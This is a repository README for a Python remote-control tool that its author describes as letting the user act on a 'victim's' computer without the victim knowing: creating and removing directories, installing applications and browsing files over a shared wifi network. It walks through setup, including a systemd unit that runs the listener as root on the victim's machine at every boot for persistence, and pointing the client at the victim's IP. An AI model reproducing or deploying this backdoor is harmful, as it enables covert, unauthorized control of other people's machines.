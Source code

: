 This repository is a cyber security project of mine, it is not very comprehensive yet it is effective, it allows you to do various operations without the victim knowing. You can create or remove directories, install applications and browse the victim's computer. Only drawback is you have to be in the same wifi with the victim.
You can set this up by following the steps I provided.


## Requirements

-To run this project, you will need the following:

-Python 3.x installed on both the server and client machines.

-SQLite3 (included with Python).

-Basic knowledge of using a terminal or command line interface.


## Files Included

client.py: The client script to send commands to the server.

server.py: The server script to receive and execute commands.

createDb.py: A script to create the SQLite database and table.

view_Db.py: A script to view the contents of the database.

command_outputs.db: The SQLite database where command outputs are stored. (you should run the createDb.py on the terminal for this to show up) -> Windows: python createDb.py Linux/Mac: python3 createDb.py


## Step 1: Edit client.py

In the client.py file, update the IP address to the IP address of the server machine (victim's machine): client_socket.connect(('192.168.169.117', 12345)) #Example


## Step 2: Run createDb.py

Run the create_db.py script on the client machine to create the SQLite database and table: python3 create_db.py


## Step 3.1: Setup the Server

On the server machine, create a systemd service to ensure the server script runs on boot: sudo nano /etc/systemd/system/server.service


## 3.2: Add the following content to the file

[Unit]

Description=Start Server Script

After=network.target


[Service]

ExecStart=/usr/bin/python3 /path/to/server.py

WorkingDirectory=/path/to/

StandardOutput=inherit

StandardError=inherit

Restart=always

User=root


[Install]

WantedBy=multi-user.target

Replace /path/to/ with the actual path where server.py is located.


## 3.3: Reload the systemd daemon and start the service:

sudo systemctl daemon-reload

sudo systemctl start server.service

sudo systemctl enable server.service


## Step 4: Running the Client

Run the command 'python3 client.py' on your terminal while you are on your projects directory -> .../Desktop/client.py

Enter the command you want to execute on the server machine. The output will be displayed and stored in the SQLite database.


## Step 5: Reviewing the Database

To view the contents of the database, run the viewDb.py script on the client machine: python3 view_db.py

This will print the stored command outputs.


That's all, you can find more commands for your needs in the text file I added named 'serverServiceCommand.txt' 
